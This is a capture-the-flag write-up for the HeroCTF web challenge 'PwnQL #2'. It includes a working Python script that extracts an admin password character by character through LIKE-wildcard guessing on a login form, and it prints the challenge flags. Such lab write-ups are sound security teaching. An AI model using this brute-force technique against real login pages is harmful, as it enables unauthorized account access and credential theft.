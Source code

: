 # PwnQL #2
### Category : Web
### Description : Extract the admin's password from the database.
### URL : http://chall1.heroctf.fr:8080
### Solution

We get the same link as PwnQL#1, We need to get the password but we cannot use any sql injection since the single quotes are escaped. So we can guess the password by guessing the individual characters.
To get the length we can send '\_' for each character and guess the password, ( the password length is 10 ). 

I wrote the following script to get the password
```
import requests
import string

# flag of first challenge -> Hero{pwnQL_b4sic_0ne_129835}

url = "http://chall1.heroctf.fr:8080/index.php"
chars = string.printable

# Each '_' is a placeholder for a single character
flag = ''
data = {"username":"admin", "password": '' }

print("[+]Getting the password")

for i in range(10):
    for char in chars:
        print("\rTrying " + str(char) + " at " + str(i), end="")
        temp = flag
        if char not in string.whitespace and char != '%' :
            temp += char
            data["password"] = str(temp) + "%"
            # print(data)
            res = requests.post(url ,data=data)
            if "pwnQL_b4sic_0ne_129835" in res.text:
                flag = flag + char
                print("\nFound " + str(char) + " at " + str(i))
                break
print(flag)                                                                                                            
```

###Flag : Hero{s3cur3p@ss}

